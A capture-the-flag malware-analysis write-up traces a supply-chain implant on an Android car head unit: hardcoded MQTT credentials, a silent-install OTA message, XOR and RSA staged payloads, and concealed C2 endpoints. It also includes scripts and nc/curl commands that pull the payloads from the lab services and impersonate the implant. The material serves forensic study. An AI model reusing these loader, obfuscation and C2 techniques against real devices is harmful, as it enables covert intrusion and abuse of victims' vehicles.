

# Holmes CTF 2026 — Sherlock 06 "Silent Passenger"

## 1. TL;DR

A Chinese white-label car head unit (TOPWAY / Allwinner T3, Android 8.1) ships an OEM OTA client called `TWCore` that subscribes to a hardcoded MQTT topic with hardcoded credentials. Reading that topic hands you a retained "install this silently" instruction, and following it peels back four nested payloads (`com.tw.jar1` APK → an embedded JAR → `sdk.jar` control stage → the `com.miyc.transfer` proxy module). Impersonating the last one on its C2 command channel lets you read the operator's own proxied HTTP traffic, which registers the car as a relay and states exactly where it is parked: `51.4997000,-0.1608000`.

---

## 2. Environment Setup

### 2.1 What you get

```
SilentPassenger/
├── Holmes CTF 2026 Sherlock 06.pdf     # story: the evidence is a car head unit
└── firmware.zip                        # 540 MB
```

plus five live services:

```
154.57.164.69:32370  154.57.164.69:31006  154.57.164.69:31944
154.57.164.69:32088  154.57.164.69:32452
```

Those five ports are not decoration. Roughly half the answers can only be obtained by talking to them; static analysis only tells you *what to say*.

### 2.2 Unpacking the firmware

```bash
unzip -q firmware.zip -d fw/
ls fw/
# History.txt
# 597b623a-bf39-11e9-817d-dbcd8bba2407          17 MB
# 5d1809fc-bf39-11e9-bfdf-cf15c72d75d6          64 MB
# 5a2f8d64-bf39-11e9-abb7-3733648aa093.0/.1/.2  400+400+100 MB
```

The `.0/.1/.2` files are one image split in three. Concatenate them:

```bash
cat fw/5a2f8d64-*.0 fw/5a2f8d64-*.1 fw/5a2f8d64-*.2 > fw/data.img
```

At offset `0x400` there is an ext4 superblock (ext2/3/4 always place it 1024 bytes in):

```bash
7z l fw/data.img | head -20
# Type = Ext
# Label = system
# Last Mounted = /mnt/mkt3p.en.c
```

macOS has no `debugfs`, but 7-Zip reads ext4 fine:

```bash
7z x -y -ofw/system fw/data.img
```

The other two UUID blobs are uniformly high-entropy (7.98 bits/byte everywhere), carry no magic at any offset, and no key material exists anywhere in the system partition. They are almost certainly vendor-encrypted boot/recovery images. I dropped them — and nothing later in the chain needed them.

### 2.3 Tooling

```bash
brew install jadx openjdk p7zip
export JAVA_HOME=/opt/homebrew/opt/openjdk   # jadx needs a JVM on the PATH
pip install paho-mqtt pycryptodome
```

---

## 3. Vulnerability Analysis

### 3.1 The shape of the chain



### 3.2 Which package does the delivering? (Q1)

Besides the usual Google apps, `/system/priv-app/` holds a row of OEM `com.tw.*` packages. Two stand out: `TDService` (31 KB) and `TWCore` (280 KB).

```bash
jadx -d re/TWCore --no-res fw/system/priv-app/TWCore/TWCore.apk
```

`TWCore` gives itself away three times over:

1. It bundles a full **Eclipse Paho MQTT** client (`org.eclipse.paho.client.mqttv3`).
2. It carries a stub for `android/content/pm/IPackageInstallObserver` — a **hidden API** ordinary apps cannot reach. Only a `priv-app` can use it, and its purpose is **silent installation** with no user prompt.
3. `com.tw.core.g.d` parses a JSON document and downloads + installs an APK from it.

So the answer is `/system/priv-app/TWCore/TWCore.apk`, hashed with `shasum -a 256`.

> **Q1** `/system/priv-app/TWCore/TWCore.apk:d7569563cd0491e76d28a1c6a9929234ffffcf035194d2288d888dced7aa11c2`

### 3.3 How the service region is chosen (Q2–Q4)

The static initialiser in `com.tw.core.a.a` keeps two complete sets of endpoints:

```java
static {
    if (e.lB()) {                       // China
        m = "http://core.car.cardoor.cn/core/api/";
        h = "tcp://mqtt.car.cardoor.cn:1883";
    } else {                            // overseas
        m = "http://core.car.dofuncar.com/core/api/";
        h = "tcp://mqtt.car.dofuncar.com";
    }
    ...
}
```

`e.lB()` is the decision the question is asking about:

```java
private static final String gZ = lC();
public static String lC() { return SystemProperties.get("ro.com.google.gmsversion"); }

public static boolean lB() {
    String locale = H.jy(DoFunApplication.nF());     // e.g. "zh_CN"
    if (TextUtils.isEmpty(gZ)) {
        return "zh_CN".equals(locale);               // locale evaluated alongside the property
    }
    return false;
}
```

The property is `ro.com.google.gmsversion`, evaluated together with the device locale. Check this unit's `build.prop`:

```bash
grep -E "gmsversion|locale" fw/system/build.prop
# ro.product.locale=zh-CN        ← present
# (ro.com.google.gmsversion appears nowhere in build.prop)
```

Empty `gmsversion` + `zh_CN` locale → `lB()` is true → the **`dofun` (China) branch** applies.

> **Q2** `ro.com.google.gmsversion`

Credentials live in `com.tw.core.f.d` (MqttClientManager):

```java
static {
    hw = D.fj ? "dofuntest" : "dofun";          // username
    hx = D.fj ? "dofuntest" : "dofun666666";    // password
}
```

`D.fj` is the debug flag and is hardcoded `false`, so the production pair applies.

> **Q3** `tcp://mqtt.car.cardoor.cn:1883|dofun:dofun666666`

Topics come from `com.tw.core.app.a`:

```java
static {
    jo = e.lB() ? "dofun" : "overseas";
    jr = jo + "/cloud/collect/gps";
    js = jo + "/car/config/";
    jp = jo + "/car/config/#";        // ← the subscribe filter
    jq = jo + "/car/private/";
}
```

and `com.tw.core.model.MainService` subscribes to `jp` at boot:

```java
com.tw.core.f.d.mb().mg(
    new String[]{ com.tw.core.app.a.jp, com.tw.core.app.a.jq + strLe }, ...);
```

> **Q4** `dofun/car/config/#`

### 3.4 Confirming it on the wire

Of the five ports, only 31944 speaks HTTP and 32088 speaks TLS (self-signed `CN=a1.ishano456.sbs`). The other three reset the connection on anything you send. Trying a raw MQTT CONNECT against each:

```
32370 anon :  b''            # no CONNACK at all
32370 creds: 20020000        # 0x20 0x02 0x00 0x00 = CONNACK, return code 0 (accepted)
```

Port 32370 is the broker, and it accepts only the `dofun` pair. That is server-side confirmation that the **dofun (China) region is the affected one** — not an inference from `build.prop` alone.

---

## 4. Leak: the retained message

MQTT brokers replay a topic's last retained message to every new subscriber, so the broker has effectively preserved the crime scene for us.

```bash
python3 - <<'PY'
import paho.mqtt.client as mqtt, time
def on_connect(c,u,f,rc,props=None): c.subscribe("dofun/car/config/#",0)
def on_message(c,u,m): print(m.topic, m.retain, m.payload.decode())
c=mqtt.Client(mqtt.CallbackAPIVersion.VERSION2, client_id="forensics")
c.username_pw_set("dofun","dofun666666")
c.on_connect, c.on_message = on_connect, on_message
c.connect("154.57.164.69",32370,60); c.loop_start(); time.sleep(5)
PY
```

```
dofun/car/config/upgrade  retain=True
0500H26STAGE0100000000eyJwYWNrYWdlIjoiY29tLnR3LmphcjEi...
```

The `0500H26STAGE0100000000` prefix is TWCore's own message framing (each handler exposes a four-digit code via `com.tw.core.g.f.nr()`); the rest is base64:

```json
{
  "package": "com.tw.jar1",
  "flag": 12,
  "path": "http://127.0.0.1/payloads/jarservice-v1.12.apk",
  "key": "6c2e34b30da42085240ede53ab6107d4",
  "not_exist_install": true,
  "type": 0
}
```

Cross-referencing `com.tw.core.g.d.nv()`, which parses exactly these keys: `flag` is the `versionCode`, `key` is the APK's MD5, and `not_exist_install` means "install it if the package is absent" — precisely the "previously absent application" the question describes.

> **Q5** `com.tw.jar1:12:6c2e34b30da42085240ede53ab6107d4`

---

## 5. Attack Method

### Step 1 — Retrieve the delivered APK (solve.py Step 4)

The `path` says `http://127.0.0.1/...`. Copying just the path onto the real IP returns 404. The trick is that the payload host does **virtual-host routing on the `Host` header**, and the host it wants is the literal `127.0.0.1` from the URL:

```http
GET /payloads/jarservice-v1.12.apk HTTP/1.1
Host: 127.0.0.1
User-Agent: Dalvik/2.1.0 (Linux; U; Android 8.1.0; QUAD-CORE T3 p1 Build/OPM1.171019.026)
Connection: close


```

```bash
curl -s --http1.1 -H 'Host: 127.0.0.1' \
     -o jarservice-v1.12.apk \
     http://154.57.164.69:31944/payloads/jarservice-v1.12.apk
md5 jarservice-v1.12.apk      # 6c2e34b30da42085240ede53ab6107d4 ← matches "key"
```

### Step 2 — Rebuild the stage hidden inside it (solve.py Step 5)

```bash
jadx -d re/jarservice --no-res jarservice-v1.12.apk
```

`Application.onCreate()` does exactly one thing:

```java
Log.i(TAG, "load 2039");
ifz.t(this);
```

`com.x.zg.ifz.t()` decodes a string and passes it along:

```java
byte[] bArr = {80, 85, 86, 93};
for (int i = 0; i < 4; i++)
    bArr[i] = (byte)(bArr[i] ^ "beed72".charAt(i % 6));
k(context, new String(bArr));     // → "2039"
```

`80^'b'=50('2')`, `85^'e'=48('0')`, `86^'e'=51('3')`, `93^'d'=57('9')` → **`2039`**. The same number appears three times — here, in `BuildConfig.FLAVOR = "C2039"`, and in the log line. That is the campaign channel.

`com.x.zg.n.a()` reassembles the next layer:

```java
byte[][] bArr = { c.b, c.c, c.d, d.b, ... l.b, l.c, l.d };   // 10 classes × 3 fields = 30
for (int i = 0; i < 30; i++)
    for (int i2 = 0; i2 < bArr[i].length; i2++)
        out.write(bArr[i][i2] ^ (30 - i));                   // one descending key per array

DataInputStream in = new DataInputStream(new ByteArrayInputStream(out.toByteArray()));
mVar.b = in.readFloat();     // version
mVar.c = in.readInt();
mVar.d = in.readUTF();       // class name
mVar.e = in.readUTF();       // method name
// everything after that is the payload file
```

The header parses as `float=1.2`, `int=1`, class `com.c.j.qbh`, method `wa`, and `com.x.zg.b.run()` invokes it reflectively:

```java
clsA.getMethod(mVar.e, Context.class, String.class).invoke(clsA, this.a, this.b);
```

> **Q6** `com.c.j.qbh.wa:2039`
> **Q7** `cf5c8c624967775230573a5a552e2e4e2b3653f2362e8c9b66a801e3b251f37c`

### Step 3 — Stage 2's update request (solve.py Step 6)

`com.c.j.m` hardcodes everything worth knowing:

```java
private static final String f = "1.7";                  // dexVersion
public  static final String e = "/api/rsaUpdate";       // the real endpoint
private static String[] g = { "http://a1.xshaon123.sbs", "http://a1.xmsae.sbs",
                              "http://a1.ishano456.sbs", "https://a1.ishano456.sbs" };
```

`m.a(Context, channelId)` builds the JSON body with `"dexVersion":"1.7"` — the version this stage reports to its update infrastructure.

> **Q8** `1.7`
> **Q9** `/api/rsaUpdate`

But `/api/rsaUpdate` never appears on the wire. `com.c.j.n.a()` buries it:

```java
private static final String a = "Mu^38Ydeo233Uowd";

public static String a(String host, String path) {
    long ts   = System.currentTimeMillis() / 1000;
    int  rnd  = new Random().nextInt(90000) + 10000;
    String inner = hex(xor(path, String.valueOf(rnd)));      // XOR with the nonce, then hex
    return host + "/apiv2/" + hex(xor(inner + "|" + ts + "|" + rnd, a));
}
```

What travels is **`/apiv2/<hex>`**; decoded, the hex is `<hex(path⊕rnd)>|<timestamp>|<rnd>`. This is textbook endpoint concealment — a pcap alone will never show you `/api/rsaUpdate`.

Both the request body and the reply use RSA/ECB/PKCS1Padding, with the public and private keys sitting side by side in `com.c.j.r` as `a` (X.509 SubjectPublicKeyInfo) and `b` (PKCS#8). `com.c.j.s` encrypts in 117-byte chunks and decrypts in 128-byte chunks.

The request:

```http
POST /apiv2/7c146b030c6c51015e050704615d4250... HTTP/1.1
Host: a1.ishano456.sbs
User-Agent: Dalvik/2.1.0 (Linux; U; Android 8.1.0; QUAD-CORE T3 p1 Build/OPM1.171019.026)
Content-Length: 256
Connection: close

<256 bytes of RSA ciphertext>
```

```bash
# building the target and the ciphertext needs a script — see solve.py step_rsa_update();
# to replay by hand, write the ciphertext to a file first:
curl -s --http1.1 -H 'Host: a1.ishano456.sbs' \
     --data-binary @body.bin \
     "http://154.57.164.69:31944/apiv2/$TARGET_HEX" -o resp.bin
```

Decrypted:

```json
{"code":200,"data":{"dexUrl":"http://127.0.0.1/vr34der34/dex3.68.png",
                    "dexVersion":3.68,"status":0}}
```

> **Q10** `/vr34der34/dex3.68.png`

### Step 4 — Turn the "PNG" back into a JAR (solve.py Step 7)

The extension lies. `com.c.j.c.a()` documents the real format:

```java
byte  b2 = in.readByte();                  // type
int   i  = (int)(in.readFloat() * 100.0f); // XOR key
while ((n = in.read(buf)) != -1) {
    for (int k = 0; k < n; k++) buf[k] = (byte)(buf[k] ^ i);
    out.write(buf, 0, n);                  // → sdk.jar
}
```

```http
GET /vr34der34/dex3.68.png HTTP/1.1
Host: 127.0.0.1
Connection: close


```

```bash
curl -s --http1.1 -H 'Host: 127.0.0.1' \
     -o dex3.68.png http://154.57.164.69:31944/vr34der34/dex3.68.png
python3 -c "
import struct,hashlib
d=open('dex3.68.png','rb').read()
k=int(struct.unpack('>f',d[1:5])[0]*100)&0xFF        # 3.68*100 = 368 → 0x70
j=bytes(b^k for b in d[5:]); open('sdk.jar','wb').write(j)
print(hashlib.sha256(j).hexdigest())"
```

Type byte 1, float 3.68 → XOR key `368 & 0xFF = 0x70`. The output is a plain JAR (`PK\x03\x04`).

> **Q11** `79e01a591c81554b57e0baaf877ca0a1a1f86f39d38973faa1580089b675838d`

That type byte doubles as the Caesar shift for the next layer's string deobfuscation: `com.c.j.c` calls `l.a("ojbNhojmmjC/let/utb/npd", 1)` — reverse the string, subtract 1 from each character — yielding `com.ast.sdk.BillingMain`.

### Step 5 — The control stage's C2 conversation (solve.py Step 8)

`com.ast.sdk.a.run()` issues the first request:

```java
n.a().a(am.c() + am.j + ap.b + "&rsa=1&channelId=" + this.b, null);
//      a1.* host   "/api/init?configVersion="   "3.8"        "2039"
```

`am.j = "/api/init?configVersion="`, `ap.b` starts at `"3.8"`, and `appId` is the `2039` threaded through from the very first stage.

```http
GET /api/init?configVersion=3.8&rsa=1&channelId=2039 HTTP/1.1
Host: a1.ishano456.sbs
Connection: close


```

```bash
curl -s --http1.1 -H 'Host: a1.ishano456.sbs' \
     -o cfg.bin "http://154.57.164.69:31944/api/init?configVersion=3.8&rsa=1&channelId=2039"
```

> **Q12** `/api/init?configVersion=3.8&rsa=1&channelId=2039`

The reply is RSA again (keys in `com.a.b.a.bb`) and carries a fresh host list:

```json
{"code":100,"data":{"configVersion":3.82,
 "hosts":["http://t2.tshuoah1.xyz", ...],
 "updates":["http://a2.tshuoah1.xyz", ...],
 "taskApi":"/cpc/api/task","reportApi":"/cpc/api/report",
 "interval":5500000,"tagName":"config","vn":1.01}}
```

Then registration (`com.a.b.a.an`):

```http
GET /cpc/api/proxy/origin HTTP/1.1
Host: t2.tshuoah1.xyz
Connection: close


```

```bash
curl -s --http1.1 -H 'Host: t2.tshuoah1.xyz' \
     http://154.57.164.69:31944/cpc/api/proxy/origin
# {"code":200,"data":"00005bp"}
```

> **Q13** `00005bp`

Then the device fingerprint, RSA-wrapped, POSTed to `/cpc/api/task` (`com.a.b.a.ao.c()` defines the fields: `absDevice`, `appInfo`, `channelId`, `dexVersion`, `configVersion`):

```http
POST /cpc/api/task HTTP/1.1
Host: t2.tshuoah1.xyz
Content-Type: application/octet-stream
Content-Length: 1152
Connection: close

<RSA ciphertext>
```

```bash
curl -s --http1.1 -H 'Host: t2.tshuoah1.xyz' \
     -H 'Content-Type: application/octet-stream' \
     --data-binary @task_body.bin \
     http://154.57.164.69:31944/cpc/api/task -o task.bin
```

Decrypted:

```json
{"code":200,"data":{"orderId":20260001,
 "tasks":[{"productId":4532,"taskId":34337681,"version":1787907664,"rank":10}]}}
```

> **Q14** `4532:34337681:1787907664`

### Step 6 — Pull the script, find the final module (solve.py Step 8, tail)

`com.a.b.a.cg` exchanges the productId for a script:

```http
GET /cpc/api/xml?productId=4532 HTTP/1.1
Host: t2.tshuoah1.xyz
Connection: close


```

```bash
curl -s --http1.1 -H 'Host: t2.tshuoah1.xyz' \
     "http://154.57.164.69:31944/cpc/api/xml?productId=4532"
```

```json
{
  "tagName": "loadlib2",
  "className": "com.miyc.transfer.Client",
  "method": "start",
  "url" : "http://127.0.0.1/vr34der34/sh66.io", "md5" : "71ab5517f71866279d0d87d37f2ae320",
  "url2": "http://127.0.0.1/vr34der34/sh65.io", "md52": "de77c3303e93c9450424759f1741441c",
  "thread": true, "reload": true, "loadType": 1, "name": "zhima",
  "params": [ {"type":"Context"},
              {"type":"String","value":"127.0.0.1"},
              {"type":"String","value":"1002"},
              {"type":"int","value":9999},
              {"type":"int","value":7777},
              {"type":"int","value":8888},
              {"type":"int","value":"20000"} ]
}
```

`tagName` picks the handler, via the table in `com.a.b.a.cf`:

```java
a.put("loadlib",  bl.class);
a.put("loadlib2", bn.class);
a.put("loadlib3", br.class);
```

And which fields does `bn` (i.e. `loadlib2`) actually read?

```java
this.h = (String) e("name");
this.i = (String) e("url");        // ← the download location
this.j = (String) e("md5");
this.k = (String) e("className");
this.l = (String) e("method");
```

It is `url`, not `url2`. The `url2`/`md52` pair is a decoy — requesting `/vr34der34/sh65.io` returns 404, which confirms it in one command.

> **Q15** `loadlib2:url`

```bash
curl -s --http1.1 -H 'Host: 127.0.0.1' \
     -o sh66.io http://154.57.164.69:31944/vr34der34/sh66.io
md5 sh66.io          # 71ab5517f71866279d0d87d37f2ae320 ← matches the md5 field
shasum -a 256 sh66.io
```

> **Q16** `906734ebb9a274c5c83a22a4475e27354857d7b5b62a4ab6bb5d8d365692e963`

### Step 7 — The final module's entry point (solve.py Step 9)

```java
public class Client {
    public static void start(Context context, String str, String str2,
                             int i, int i2, int i3, int i4) { ... }
}
```

`bn` builds the `Class[]` from the `params` types:

```java
clsArr[i] = type.equals("Context") ? Context.class
          : type.equals("String")  ? String.class
          : type.equals("int")     ? Integer.TYPE
          : type.equals("long")    ? Long.TYPE : null;
```

Translated to a DEX descriptor: `Context` → `Landroid/content/Context;`, `String` → `Ljava/lang/String;`, `int` → `I`, `void` return → `V`.

> **Q17** `(Landroid/content/Context;Ljava/lang/String;Ljava/lang/String;IIII)V`
> **Q18** `9999,7777,8888,20000`

### Step 8 — Authenticate on the command channel (solve.py Step 10)

Follow where those four integers go:

```java
// Client.start(ctx, "127.0.0.1", "1002", 9999, 7777, 8888, 20000)
new Thread(new a(tVar, i3 /*8888*/)).start();                    // g.m = 8888 (UDP associate)
new Thread(new b(str2, tVar, str, i /*9999*/, i2 /*7777*/, i4 /*20000*/)).start();
// b.run() → l.a(host, 9999, 7777, 20000, "uuid")
//         → command 2 to local port 10121 → new e(host, cmdPort=9999, dataPort=7777, 20000, uid)
```

`com.miyc.transfer.e` sends its auth frame the moment it connects to `host:9999`:

```java
this.f = u.a(g.h, uid.getBytes());   // g.h = 51 = 0x33
...
private void f() { this.i.write(this.f); this.i.flush(); }
```

```java
public static byte[] a(byte b, byte[] payload) {
    byte[] out = new byte[payload.length + 9];
    out[0] = b;                                    // 0x33
    System.arraycopy(a(66), 0, out, 1, 4);         // int32 BE = 66
    System.arraycopy(a(payload.length), 0, out, 5, 4);
    System.arraycopy(payload, 0, out, 9, payload.length);
    return out;
}
```

The uid is the `00005bp` the registration service handed out — 7 bytes — so the frame is 9 + 7 = **16 bytes**, exactly the 32 hex characters the question asks for:

```
33 00000042 00000007 30 30 30 30 35 62 70
│  │        │        └─ "00005bp"
│  │        └─ length = 7
│  └─ 66
└─ g.h
```

```bash
printf '\x33\x00\x00\x00\x42\x00\x00\x00\x07\x30\x30\x30\x30\x35\x62\x70' \
  | nc 154.57.164.69 32452 | xxd
# 00000000: 3005 0607 0800 0000 0000 0000 007f 0000  0...............
# 00000010: 01                                       .
```

> **Q19** `33000000420000000730303030356270`

Port `9999` maps to 32452 and `7777` maps to 31006 — which also explains why those two reset every HTTP, TLS and MQTT probe at the start: they speak a bespoke binary protocol and nothing else.

### Step 9 — Read the coordinates out of the proxied traffic (solve.py Step 10)

Parse the 17-byte reply the way `com.miyc.transfer.e.c()` does:

```
30           cmdType = 48 = g.e  → an HTTP-proxy job
05 06 07 08  4-byte session token
00 00 00 00  skip(4)
00 00 00 00 7f 00 00 01   8 bytes → u.a(long) → "127.0.0.1"
```

The module then opens the data channel to `127.0.0.1:7777` (= 31006). **The only handshake is writing those 4 token bytes**, after which the C2 drives the implant as a proxy client. The fallback disassembly of `com.miyc.transfer.a.d.run()` shows it plainly: once `finishConnect()` succeeds it does `g.put(e.c); g.flip(); channel.write(g);` and nothing else.

```python
d = socket.create_connection(("154.57.164.69", 31006), timeout=20)
d.sendall(bytes.fromhex("05060708"))
print(d.recv(65535).decode())
```

```
GET http://198.51.100.7/relay/enroll?relayId=00005bp&role=drone-control
    &latitude=51.4997000&longitude=-0.1608000 HTTP/1.1
Host: 198.51.100.7
Connection: close
```

The car has been enrolled as a `drone-control` relay, and the enrolment request states where it is standing.

> **Q20** `51.4997000,-0.1608000`

(Green Park / Buckingham Palace, London — consistent with the story's Pavilion Road car park and the route of covered car parks between the Thames and Hyde Park.)

---

## 6. Pitfalls

**Assuming a missing `/data` partition was fatal.** Only `system` shipped, so I burned time trying to break the two high-entropy blobs, hunting for something like `packages.xml`. This is not a pure static-forensics challenge: `/system` only tells you *how to talk to the C2*; the evidence itself lives on the live services. When a Sherlock hands you IP:port pairs, treat them as load-bearing from the start.

**Misreading three "dead" ports.** 31006 / 32452 / 32370 reset on any HTTP or TLS probe, which looks exactly like a backend that never came up. In fact each speaks precisely one protocol: 32370 only answers an MQTT CONNECT **carrying valid credentials** (an anonymous CONNECT gets no CONNACK at all, which is counter-intuitive), and the format the other two want is only knowable once you reach the last stage. A reset does not mean a dead service; it can mean you are speaking the wrong language.

**The `Host` header.** `http://127.0.0.1/payloads/...` reads like a loopback path that cannot possibly matter, so the instinct is to keep the path and point it at the real IP — and get 404 for everything. Sweeping different `Host` values is what revealed the vhost routing, and the value it wants is the literal `127.0.0.1` (`localhost` even returns 400). The host portion of a URL in malware config is part of the answer, not noise to strip.

**`url` versus `url2`.** The script carries two identical-looking `url`/`md5` pairs and it is tempting to grab either. Go back to the handler and see which field it reads: `com.a.b.a.bn.a()` only touches `url`. The fastest sanity check is to request `sh65.io` — the decoy has no file behind it.

**Do not squint at methods jadx refuses to decompile.** `com.c.j.t.a()`, `com.miyc.transfer.a.d.run()` and `com.a.b.a.s.a()` all emit `Method not decompiled`. `jadx -m fallback` renders near-bytecode pseudocode, and that is how the "write 4 token bytes on connect" handshake in `d.run()` became visible. A failed Java-mode decompile is not evidence that the method is unimportant.

**String obfuscation kills grep.** All four payloads use the same trick: `a.a("string", n)`, subtracting `n` from every character. A plain `grep -r "http"` finds nothing. Writing a 30-line rewriter that decodes every `X.a("...", N)` in place and emits `.dec.java` copies made the URLs and endpoints greppable, and it paid for itself within minutes. With whole-package shift obfuscation, build the decoder before you start reading.

**A Python name collision.** I named my HTTP helper `http()`, which shadowed `import http.client` and produced `'function' object has no attribute 'client'`. Trivial, but it cost a cycle in a long script.

---

## 7. Full Exploit

The complete script is [`solve.py`](solve.py). It runs all ten steps and prints every answer:

```bash
cd SilentPassenger
# activate your python virtual environment
source venv/bin/activate
python3 solve.py
```

```
  Q1  privileged updater                    /system/priv-app/TWCore/TWCore.apk:d7569563...
  Q2  region system property                ro.com.google.gmsversion
  Q3  MQTT service + credentials            tcp://mqtt.car.cardoor.cn:1883|dofun:dofun666666
  Q4  fleet update topic filter             dofun/car/config/#
  Q5  delivered application                 com.tw.jar1:12:6c2e34b30da42085240ede53ab6107d4
  Q6  reflective entry + campaign channel   com.c.j.qbh.wa:2039
  Q7  reconstructed stage sha256            cf5c8c624967775230573a5a552e2e4e2b3653f2362e8c9b66a801e3b251f37c
  Q8  stage self-reported version           1.7
  Q9  concealed API endpoint                /api/rsaUpdate
  Q10 next object path                      /vr34der34/dex3.68.png
  Q11 control stage sha256                  79e01a591c81554b57e0baaf877ca0a1a1f86f39d38973faa1580089b675838d
  Q12 first configuration request-target    /api/init?configVersion=3.8&rsa=1&channelId=2039
  Q13 registered UID                        00005bp
  Q14 product:task:version tuple            4532:34337681:1787907664
  Q15 delivery op:location field            loadlib2:url
  Q16 final module sha256                   906734ebb9a274c5c83a22a4475e27354857d7b5b62a4ab6bb5d8d365692e963
  Q17 module entry descriptor               (Landroid/content/Context;Ljava/lang/String;Ljava/lang/String;IIII)V
  Q18 integer arguments                     9999,7777,8888,20000
  Q19 command-channel auth frame            33000000420000000730303030356270
  Q20 relay parking coordinates             51.4997000,-0.1608000
```

It expects the jadx output trees (`re/jarservice`, `re/stage2`, `re/sdk`) to exist, because the RSA keys and the 30 payload fragments are parsed straight out of the decompiled `byte[]` literals.

---

## 8. Lessons

**The weakest link in a supply chain is often a perfectly legitimate privileged updater.** Nothing in this chain required a memory-corruption bug. The attacker simply used capabilities `TWCore` already had: `priv-app` privileges, a hidden-API silent installer, and a public MQTT broker reachable with credentials compiled into the APK.

**Hardcoded credentials in shipped binaries are plaintext.** `dofun / dofun666666` took two lines of decompiled Java. Combine that with a broker that lets any authenticated client subscribe to `#`, and the entire fleet's update channel is readable — and, in principle, writable — by anyone who has ever owned one of these units.

**Retained MQTT messages cut both ways.** The operator used the retain flag so that every head unit coming online would immediately receive the install command. That same flag preserved the full delivery instruction for whoever investigated next. Brokers handling fleet configuration should authorise *publish* to config topics separately from *subscribe*, and should not retain operational commands indefinitely.

**Multi-stage loaders exist so that each layer looks harmless alone.** The delivered APK contains four stub classes and thirty byte arrays; no static scanner has grounds to flag it. The real behaviour only materialises four layers down. Detection therefore belongs at the behavioural layer: a `priv-app` that takes an instruction off MQTT and silently installs an APK is worth alerting on regardless of what the payload turns out to be.

**Endpoint concealment does not survive a decompiler.** `/apiv2/<hex>` defeats anyone reading a pcap and nobody reading the DEX — `/api/rsaUpdate` sits in a static field named `com.c.j.m.e`. Likewise, shipping the RSA *private* key in a `byte[]` hands the analyst full decryption of both directions. Obfuscation buys time against automated triage, not against a human.

**Car head units are a badly underrated attack surface.** Cellular connectivity, near-permanent power, GPS, and a UI nobody ever inspects. Turning one into a mobile relay for a `drone-control` operation, as this challenge does, is a realistic use of the asset rather than narrative licence.

---

## 9. Glossary

- **Head unit** — the in-dash infotainment computer. Here it is a Chinese white-label Allwinner T3 board running Android 8.1.
- **priv-app** — an app installed under `/system/priv-app/` on Android. It is part of the system image and can hold signature/privileged permissions ordinary apps cannot, including installing APKs without a user prompt.
- **Hidden API** — a framework interface that exists in AOSP but is not exposed in the public SDK (for example `IPackageInstallObserver`). Normal apps are blocked from calling it; system apps are not.
- **OTA (Over-The-Air)** — a firmware or app update mechanism delivered over the network.
- **MQTT** — a lightweight publish/subscribe messaging protocol common in IoT. Clients connect to a broker and subscribe to topics to receive whatever others publish there.
- **Retained message** — an MQTT broker keeps the last message flagged "retain" for each topic and delivers it immediately to every new subscriber.
- **Topic filter / `#`** — the multi-level subscription wildcard. `a/b/#` matches `a/b` and everything beneath it.
- **CONNACK** — the MQTT server's reply to a CONNECT. `20 02 00 00` means the connection was accepted.
- **ext4 superblock** — the metadata header of a Linux ext filesystem, always located 1024 (0x400) bytes into the image. Finding it is how you identify a raw ext image with no filename to go on.
- **DEX / smali** — DEX is Android's bytecode container (`classes.dex`); smali is its assembly-language notation.
- **jadx** — a decompiler that turns DEX back into readable Java. Its `-m fallback` mode emits near-bytecode pseudocode, useful when normal decompilation fails.
- **Reflection** — Java's ability to look up a class and method by name at runtime and invoke them. Malware uses it to break the static call graph.
- **DexClassLoader** — Android's loader for DEX/JAR files supplied at runtime; the standard mechanism for staged payload loading.
- **DEX method descriptor** — the JVM/DEX string encoding of a method signature, e.g. `(Ljava/lang/String;I)V` meaning "takes a String and an int, returns void". Object types are `L<slash/separated/name>;`; `I` is int, `J` is long, `V` is void.
- **RSA/ECB/PKCS1Padding** — RSA with PKCS#1 v1.5 padding. A 1024-bit key encrypts at most 117 bytes per block and produces 128-byte blocks, so longer messages are chunked.
- **X.509 / PKCS#8** — the standard DER encodings for public and private keys respectively, matching Java's `X509EncodedKeySpec` and `PKCS8EncodedKeySpec`.
- **Virtual host (vhost)** — serving several sites from one IP:port, selected by the HTTP `Host` header.
- **SOCKS5 / HTTP proxy** — two proxy protocols. The final module implements both, letting the C2 route arbitrary traffic out through the victim vehicle's network.
- **C2 (Command and Control)** — the server malware calls back to for instructions.
